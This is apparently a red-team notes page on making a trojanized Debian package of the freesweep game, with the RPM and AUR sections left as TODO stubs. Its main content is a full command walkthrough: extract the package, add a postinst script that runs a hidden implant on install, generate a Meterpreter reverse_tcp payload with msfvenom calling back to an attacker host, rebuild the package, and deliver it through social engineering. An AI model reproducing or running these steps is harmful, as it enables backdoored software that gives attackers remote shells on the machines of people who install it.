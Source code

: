 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - metasploit-framework
  - linux
---
```

# Trojanized Software Package

> [!TIP]
> While the target will install the backdoored software package with elevated privileges. You can include other vectors such as, elevated persistence.

## 01 - DEB

Create a temporary directory.

```
userware@hackware-os:~$ cd $(mktemp -d)
```

Download a DEB package. We will use `freesweep` as an example.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt download freesweep

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt-get download freesweep
```

Extract the packing to a working directory then create a `DEBIAN` directory to include additional "features".

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ ls
freesweep_1.0.2-1_amd64.deb

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg -x freesweep_1.0.2-1_amd64.deb work

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ mkdir work/DEBIAN
```

> [!IMPORTANT]
> Do not skip this step.
> > [!TIP]
> > To copy the contents in `control` file then execute either `dpkg-deb -I file.deb control` or `apt-cache show <package>` as reference.

In the `DEBIAN` directory, create a text file named `control` with the contents.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/control << EOF
Package: freesweep
Architecture: amd64
Version: 1.0.2-1
Priority: optional
Section: universe/games
Origin: Ubuntu
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Original-Maintainer: Debian Games Team <pkg-games-devel@lists.alioth.debian.org>
Description: text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer.  Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
EOF
```

Then create a post-installation script (`postinst`) that will trigger the implant.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/postinst << EOF
#!/bin/sh
sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores & /usr/games/freesweep &
EOF

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ chmod 755 work/DEBIAN/postinst
```

Generate an implant for a reverse connection.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=<attacker_PORT> -f elf -o work/usr/games/freesweep_scores
```

Build the `.deb` package.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg-deb -b work trojanized_freesweep.deb
dpkg-deb: building package 'freesweep' in 'trojanized_freesweep.deb'.
```

Run `lintian` to check if there any problems to the software package. We're only concerned about the post installation script (`postinst`) and the implant (`freesweep_scores`) if there was an error (`E`). For the implant's `statically-linked-binary` error message is safe to ignore. Now the implant is ready to deliver for social engineering.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ lintian -c trojanized_freesweep.deb 
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/README.md]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/changelog.Debian.gz]
E: freesweep: bad-owner-for-doc-file ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
E: freesweep: file-in-etc-not-marked-as-conffile [etc/sweeprc]
E: freesweep: mail-address-loops-or-bounces Maintainer ubuntu-devel-discuss@lists.ubuntu.com
E: freesweep: statically-linked-binary [usr/games/freesweep_scores]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/sweeprc]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [usr/]
E: freesweep: wrong-file-owner-uid-or-gid ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
W: freesweep: elevated-privileges 2755 userware/userware [usr/games/freesweep]
W: freesweep: maintainer-script-ignores-errors [postinst]
W: freesweep: no-manual-page [usr/games/freesweep_scores]
W: freesweep: non-standard-file-perm 0664 != 0644 [usr/games/freesweep_scores]
W: freesweep: undeclared-elf-prerequisites (libc.so.6 libncurses.so.6 libtinfo.so.6) [usr/games/freesweep]
W: freesweep: unknown-section universe/games
```

To execute the implant to retrieve a connection from the shell handler.

```
$ sudo dpkg -i trojanized_freesweep.deb

$ sudo apt install ./trojanized_freesweep.deb
```

## 02 - RPM

TODO: Fill in the steps for the RPM package.

```
$ sudo rpm -Uvh implant.rpm
```

## 03 - AUR

TODO: Fill in the steps for the AUR package.

```

```

---
## References

### Backlinks

- [[Package File Templates]]

### DMCXBlue

- [DMCXBlue: Installer Packages](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/installer-packages)

### Metasploit Unleashed

- [Metasploit Unleashed: Binary Linux Trojan](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)